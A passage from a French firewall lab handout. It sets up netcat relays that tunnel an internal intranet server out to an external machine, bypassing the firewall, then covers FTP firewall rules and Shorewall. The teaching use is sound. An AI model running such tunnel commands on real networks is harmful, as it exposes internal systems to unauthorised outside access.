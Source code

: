 Connectez-vous sur la machine "isp-a-home". Nous allons commencer par éteindre le service _Apache_ en écoute pour libérer le port 80 qui nous sera utile
puis nous allons écouter les connexions sur le port HTTP (TCP/80).
```bash
service apache2 stop
while true; do nc -v -l -p 80 -c "nc -l -p 8080"; done
```

Enfin, côté "target-dev", nous mettons en place la connexion sortante vers la machine distante:
```bash
while true; do nc -v 100.120.0.3 80 -c "nc 100.80.0.5 80"; sleep 2; done
```

>Pour rappel :
>* 100.120.0.3 = isp-a-home
>* 100.80.0.5 = target-intranet

Testez (avec la machine du hacker) que vous pouvez bien accéder au serveur intranet depuis l'externe sans aucun contrôle via l'URL `http://100.120.0.3:8080`

10. A l'aide d'un schéma, expliquez ce phénomène.

Il est très difficile de bloquer ou même détecter les tunnels (imaginez un tunnel chiffré par SSH, ou qui mime une apparence de HTTP, etc.)

Bonus
=====

FTP
---

FTP, comme quelques autres protocoles, présente des difficultés particulières pour les firewalls. En effet, la partie contrôle de FTP se passe sur une
connexion (et un port) distinct de la partie données. Les firewalls modernes savent créer le lien entre ces deux connexions pour y appliquer un contrôle
adapté.

Un serveur FTP est installé sur "target-dmz", configurez le firewall pour permettre son usage (transfert de fichiers) depuis une machine externe au SI.
Attention, le FTP demande une connexion avec un utilisateur existant, par exemple debian/debian.

Shorewall
---------
Vous avez pu vous rendre compte de la complexité du réglage manuel du pare-feu. En particulier, la lecture des règles existantes ou la vérification de leur
cohérence présente de nombreuses difficultés. La maintenance d'une telle solution est donc complexe dans un environnement de production : les règles
changent souvent et demandent une inspection régulière.

De nombreuses solutions ont été développées pour faciliter la gestion des règles iptables. Nous allons ici utiliser Shorewall. Shorewall n'est pas un démon
et repose entièrement sur iptables. Il consiste en une série de scripts permettant de simplifier la configuration, notamment en définissant la notion de 
zones. Sur "target-router", installez shorewall (`apt-get install shorewall`) puis réimplémentez votre politique de sécurité avec cet outil.

_Note : Pour les plus aventuriers, il est possible d'expérimenter firewalld, un outil plus moderne_
